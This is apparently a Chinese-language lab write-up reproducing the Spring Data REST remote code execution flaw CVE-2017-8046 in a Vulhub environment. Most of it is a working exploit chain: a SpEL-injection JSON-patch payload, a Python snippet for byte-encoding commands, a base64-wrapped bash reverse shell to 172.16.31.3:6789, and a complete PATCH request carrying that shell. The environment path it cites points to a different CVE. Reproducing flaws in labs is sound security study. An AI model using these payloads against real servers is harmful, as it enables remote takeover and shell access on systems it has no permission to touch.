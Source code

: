 # Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

### 1.1、漏洞描述

Spring Data REST是Spring Data项目的一部分，可以轻松地在Spring Data存储库之上构建超媒体驱动的REST Web服务。

恶意的PATCH请求使用精心构造的JSON数据提交到spring-data-rest服务可以执行任意JAVA代码 

### 1.2、漏洞原理

Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码.

### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version < 2.0.0M4
Spring Data release trains < Kay-RC3

### 1.5、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20240418150751390](./imgs/image-20240418150751390.png)

#### 2、漏洞验证

访问`http://your-ip:8080/customers/1`出现如下界面说明存在漏洞

![image-20240418150943079](./imgs/image-20240418150943079.png)

进一步验证，验证之前，我们需要制作payload，将要执行的命令进行转换，不然会执行不成功的.

```python
 ",".join(map(str,(map(ord,"touch /tmp/success"))))
```

![image-20240418152753274](./imgs/image-20240418152753274.png)

或者使用[在线转换](https://www.osgeo.cn/app/s2650)

![image-20240418152912709](./imgs/image-20240418152912709.png)

```
(0)制作payload   将 touch /tmp/success 进行ASCII-字符 转换 

(1)访问 http://靶场ip:8080/customers/1 进行抓包

(2)转包之后将GET修改为PATCH

(3)添加字段 Content-Type: application/json-patch+json

(4)将制作好的payload添加到最后一行
```

payload：

```json
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`然后进入容器看看：

![image-20240418152454011](./imgs/image-20240418152454011.png)

![image-20240418152515791](./imgs/image-20240418152515791.png)

### 1.6、深度利用

#### 反弹Shell

[棱角 ::Edge.Forum](https://forum.ywhack.com/shell.php)

[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)

```bash
直接利用，反弹shell

bash -i >& /dev/tcp/172.16.31.3/6789 0>&1

base64编码后得到

YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=

和bash反弹连接命令拼接得到

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=}|{base64,-d}|{bash,-i}

利用代码对拼接后的payload转换为ascii码

payload = b'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuMy82Nzg5IDA+JjE=}|{base64,-d}|{bash,-i}'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

![image-20240418155244957](./imgs/image-20240418155244957.png)

通过burpsuite发送poc

```bash
PATCH /customers/1 HTTP/1.1
Host: 172.16.31.3:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/json-patch+json
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 450

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,84,89,117,77,122,69,117,77,121,56,50,78,122,103,53,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```



![image-20240418155210075](./imgs/image-20240418155210075.png)

![image-20240418155342545](./imgs/image-20240418155342545.png)



### 1.7、修复建议

官方已经发布新版本修复了该漏洞，受影响的用户可升级至最新版本来防护该漏洞

### 1.8、参考

- https://www.cnblogs.com/sallyzhang/p/12401604.html
- https://www.cnblogs.com/icez/p/Spring_Data_REST_PATCH_RCE_CVE-2017-8046.html